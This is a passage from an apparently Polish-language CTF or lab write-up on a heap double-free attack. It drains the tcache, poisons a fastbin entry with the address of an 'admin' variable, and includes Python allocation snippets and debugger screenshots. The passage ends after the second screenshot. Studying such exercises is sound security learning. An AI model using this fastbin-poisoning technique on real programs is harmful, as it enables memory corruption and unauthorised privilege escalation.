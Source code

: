 Teraz, aby atak się udało muszę opróźnić tcache - alokuje znowu 7 userów.
```
tcache
empty
fastbin
p8->p9->p8
```

```python
for i in range(8):
    malloc('a')
```
W tym momencie alokuje usera o nazwie będącej adresem zmiennej `admin` - `0x0804c048`. Adres ten zapisywany jest w sekcji z danymi chunka `p8`.

Teraz alokuje dwóch losowych userów, aby wyczyścić fastbin.

```python
malloc('\x48\xc0\x04\x08')
malloc('1')
malloc('1')
```
W momencie wpisania adresu:

![img_9.png](img/img_9.png)

W chunku p8 znajdują się adresy wynikające ze struktury free chunka. Jest on w fastbinie i jednocześnie podmieniłem adres.

Po zalokowaniu dwóch losowych chunków.

![img_10.png](img/img_10.png)
